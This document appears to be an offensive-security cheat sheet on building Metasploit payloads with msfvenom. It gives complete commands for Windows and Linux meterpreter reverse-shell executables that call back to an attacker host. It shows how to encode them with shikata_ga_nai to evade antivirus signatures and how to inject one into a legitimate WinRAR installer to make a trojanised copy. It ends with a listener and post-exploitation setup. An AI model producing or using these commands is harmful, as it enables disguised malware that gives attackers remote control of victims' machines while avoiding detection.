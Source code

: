 The payload syntax is `platform`/`architecture`/`type`/`protocol`. Example : `windows/x64/meterpreter/reverse_tcp`.

```bash
kali@kali> msfvenom --list payloads
kali@kali> msfvenom --list formats
```

* Staged payload : you specifiy the payload type, `windows/x64/meterpreter/reverse_tcp`.
* Non-staged payload : there are only 2 backslashes, `windows/x64/meterpreter_reverse_tcp`.

#### Windows payloads

```bash
kali@kali> msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe -o payloadx86.exe
kali@kali> msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe -o payloadx64.exe
```

#### Linux payloads

```bash
kali@kali> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=10.10.10.5 lport=1234 -f elf -o payloadx86.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.10.10.5 lport=1234 -f elf -o payloadx64.elf
```

#### Payload encoding

* Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of **AV detection**.
* Most of end user AV solutions utilize signature based detection in order to identify malicious files or executables.
* We can evade older signature based AV solutions be encoding our payloads.
* Encoding is the process of modifying the payload shellcode with the objective of **modifying the payload signature**.
* **Shellcode** (shell-code) is a piece of code typically used as a payload for exploitation.
* It gets its name from the term command shell, whereby shellcode is **a piece of code** that provides an attacker with a remote command shell on the target system.

```bash
# windows - 10 encoding iterations - shikata_ga_nai encoder
kali@kali> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.5 lport=1234 -i 10 -e x86/shikata_ga_nai -f exe -o encodedx86.exe
kali@kali> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=10.10.10.5 lport=1234 -e x86/shikata_ga_nai -i 10 -f elf -o encodedx86
```

#### Windows portable executable payload injection

A great Windows tool is **Winrar** and you can inject shellcode into this executable. First download the executable configuration file https://www.win-rar.com/.

```bash
kali@kali> msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.81.62 lport=1234 -e x86/shikata_ga_nai -i 10 -f exe -x Downloads/winrar-x32-622.exe -o winrar.exe

kali@kali> msfconsole
msf6> use multi/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost 192.168.81.62
msf6> set lport 1234
msf6> run

meterpreter> run post/windows/manage/migrate  # post-exploitation module
```
